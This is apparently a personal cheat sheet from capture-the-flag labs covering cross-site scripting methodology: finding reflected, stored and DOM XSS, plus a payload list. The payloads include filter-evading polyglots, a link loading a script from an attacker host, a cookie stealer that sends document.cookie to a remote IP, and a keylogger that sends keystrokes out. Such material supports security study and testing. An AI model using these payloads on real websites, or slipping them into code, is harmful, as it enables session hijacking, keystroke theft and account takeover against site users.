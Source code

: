 #### Methodology
##### XSS methodology:
```
Find where input gets reflected
Check for XSS types
Escape HTML/JS (use polyglot)
Use payloads
```

##### Reflected XSS
Look for:
```cpp
Parameters in URL query: http://vulnerable.thm/forum?popup=<script>alert('XSS');</script>
URL file path: ?
```
Exploitation:
Create malicious link: `http://vulnerable.thm/forum?popup=<script src=attacker.htb/exploit.js>`

##### Stored XSS
Look for:
```cpp
Unsanitized comment: payload in fields
Websile listings: payload in fields
```
Note: Attempt at uncommon places (age input with a dropdown for an integer etc)
Exploitation: 
Create hidden JS, send malicous link

##### DOM XSS
Look for accessible variables in the JS code
Check if variables are passed to unsafe methods such as `eval()`


##### Payloads
To bypass `alert` blocks, use `prompt` or `confirm`
```C++
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )
//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
// Polyglot, escapes a lot.

<script>alert('XSS');</script> // Proof of concept, sometimes blocked
"><script>alert('XSS');</script> // Escape HTML
</script><script>alert(document.cookie);</script> // Escape javascript functions

<script>fetch('http://10.8.1.167/steal?cookie=' + btoa(document.cookie));</script> // Steal cookies such as PHPSESSID in base64, sent to a malicious IP
<script>document.onkeypress = function(e) { fetch('http://10.8.1.167/log?key=' + btoa(e.key) );}</script> // Log keys, keys sent to hacker.thm

```  